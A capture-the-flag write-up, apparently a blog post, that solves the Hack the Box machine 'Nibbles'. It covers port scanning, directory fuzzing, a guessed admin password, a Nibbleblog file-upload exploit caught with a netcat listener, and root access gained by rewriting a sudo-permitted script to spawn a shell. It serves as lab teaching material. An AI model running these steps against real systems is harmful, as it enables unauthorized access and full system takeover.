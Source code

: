 ```yaml
---
layout: post
title: Hack the Box - Nibbles
date: 2020-07-22 20:25:22 +0100
description: Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.
img: nibbles.png
fig-caption: Nibbles
categories: HackTheBox
tags: [Easy, Linux, Retired, CVE]
---
```

## Overview
Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.
## Enumeration
From port enumeration, it's relatively clear that port 80 is the port we should focus on.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/nibbles]
└─$ sudo nmap -p- -T4 10.129.1.135                         
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-21 20:33 GMT
Nmap scan report for 10.129.1.135
Host is up (0.016s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.66 seconds
```
When we access port 80 in a browser, we are greeted with a "hello world" page. From there I tried to fuzz pages with nothing coming back. However when we viewed the page source we could see a "nibbleblog" directory mentioned. I then ran a fuzzing scan on that directory and found an admin page.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/nibbles]
└─$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.1.135/nibbleblog/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.1.135/nibbleblog/FUZZ
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

content                 [Status: 301, Size: 325, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 324, Words: 20, Lines: 10]
admin                   [Status: 301, Size: 323, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 325, Words: 20, Lines: 10]
README                  [Status: 200, Size: 4624, Words: 589, Lines: 64]
languages               [Status: 301, Size: 327, Words: 20, Lines: 10]
                        [Status: 200, Size: 2985, Words: 116, Lines: 61]
                        [Status: 200, Size: 2985, Words: 116, Lines: 61]
:: Progress: [220547/220547] :: Job [1/1] :: 2447 req/sec :: Duration: [0:01:37] :: Errors: 0 ::
```
## Foothold
In order to gain access we had to guess the correct login which had nibbles for the password.

When looking for an exploit I found a metasploit module.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/nibbles]
└─$ searchsploit nibbleblog
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                             | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                              | php/remote/38489.rb
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
However it is also fairly simple to do yourself following the steps outlined [here](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html). This resulted in a user shell
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/nibbles]
└─$ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.1.135] 58182
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ whoami
nibbler
```
## Privilege Escalation
In order to escalate to root I found that I was able to execute a particular script using root through sudo.
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
I could then create that script and add my own command
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '#!/bin/bash' > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '/bin/bash -i' >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh     
sudo: unable to resolve host Nibbles: Connection timed out
root@Nibbles:/home/nibbler/personal/stuff# whoami
whoami
root
```
